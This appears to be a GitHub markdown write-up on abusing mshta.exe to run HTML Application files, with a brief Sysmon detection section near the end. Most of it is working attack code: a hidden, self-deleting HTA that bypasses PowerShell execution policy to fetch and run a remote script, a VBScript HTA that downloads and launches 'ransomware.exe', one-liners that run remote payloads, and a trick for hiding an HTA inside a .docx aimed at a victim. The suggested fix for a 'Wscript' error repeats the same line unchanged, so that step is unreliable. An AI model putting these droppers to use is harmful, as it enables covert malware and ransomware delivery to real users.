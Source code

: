 # The magic behind ```mshta.exe```
Mshta.exe is a utility that executes **Microsoft HTML Applications (HTA) **
An **HTML Application (HTA)** is a Microsoft Windows program whose source code consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript.

## Parameters
Parameters to the ```mshta.exe``` include:
* ```-xxx``` 


### Special cases


## Malicious scenarios
Because it runs on windows and support VBScript and Jscript, it's very obvious that it could be used in a malicious way

**The following is the format of HTA file**

```html
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">


<script>
//We will use Wscript.shell in order to launch PowerShell
// new ActiveXObject is JScript
a = new ActiveXObject('Wscript.Shell');
//Our command to execute
cmd = "powershell  -ep Bypass -nop -noexit -c (IEX (New-Object Net.WebClient).DownloadString('http://[IP]/projects/exec.ps1'))";
//Run the command, 0 is needed so that no PowerShell window will appear
a.Run(cmd,0);

//We use this in order to get erase the HTA file after it has executed
b = new ActiveXObject("Scripting.FileSystemObject");
//Get filename and edit it so that windows can read it properly
filename = window.location.href;
filename = decodeURI(filename);
filename = filename.slice(8);
//Get a handle on the file
c = b.GetFile(filename);
//Delete it
c.Delete();
//Close the MSHTA window
window.close();
</script>
</head>
<body>
</body>
</html>
```

the above HTA file uses ActiveX Microsoft extension to JavaScript to run cmd command which will run PowerShell and download another PowerShell script

the following tag is what defines that the following is HTA application so it could be parsed with mshta.exe as HTA file and execute the buried Jscript code in it



```html
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">
```

mshta.exe always looking for this tag to identify the file as HTA



to run the HTA file, *run mshta.exe from cmd not PowerShell*

```powershell
mshta.exe http://webserver/payload.hta
```

```powershell
mshta.exe [Full Path to the File]
```




mshta.exe could also run VBScript code as one-liner

```vbscript
mshta.exe vbscript:Close(MsgBox("Karem"))
```

```vbscript
mshta.exe vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

****

you also can Just VBScript
```vbscript
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">


<script type="text/vbscript" LANGUAGE="VBScript" >
Set wshShell = CreateObject( "WScript.Shell" )
strUserName = wshShell.ExpandEnvironmentStrings( "%USERNAME%" )
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://[IP]/ransinvoke.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe", 2 '//overwrite
end with
Set objShell = Wscript.CreateObject("Wscript.Shell")
objShell.run("C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe")

</script>
</head>
<body>
</body>
</html>
```

some times when you run the above code you get an error saying that Wscript is not defined, this is happen because of this line

```vbscript
 Set objShell = Wscript.CreateObject("Wscript.Shell")
```


 so just remove the Wscript and make it

```vbscript
Set objShell = Wscript.CreateObject("Wscript.Shell")
```
and it will run with no issue
this problem always happens to me when I run VBScript from other file, bu it works fine it the file is just VBScript and I run it through Wscrip.exe

****



**HTA file execution Tricks**

We can append the HTA file at the end of any other (not image) file

```powershell
copy /b doc.docx+file.hta newdoc.docx
mshta.exe [full path to newdoc.docx]
```

mshta.exe will not care about the extension of the supplied file as long as it's not image extension (ex: jpg, jpeg,png,..), it will just search for the tag that defines the HTA file



Notes

- if you append the data to docx file then run it using mshta.exe, it will work but once the victim opens it using word, word will identify that there is a problem but will open the file eventually after trimming the HTA code, and when user tires to close the file, word will tell hom to save the new doc which has no HTA, if the user saved the new file and removed the one that word told him that it's corrupted, then our HTA code is gone
- if you append HTA to image file and try to open it using mshta, it will open the image in a windows and will not run the JScript inside the HTA

 

### Detection

- sysmon

  - process create

    - mshta.exe process create with command line identify the file that will run the HTA
    - cmd process create with mshta.exe as parent process
    - PowerShell process that has cmd.exe as parent process 

    
    
    ![MSHTA](./images/mshta.jpg)
    
    

## Reference 
* [Good Resource about MSHTA] http://blog.sevagas.com/?Hacking-around-HTA-files
* https://github.com/karemfaisal/SMUC/blob/master/MSHTA/Mshta.md
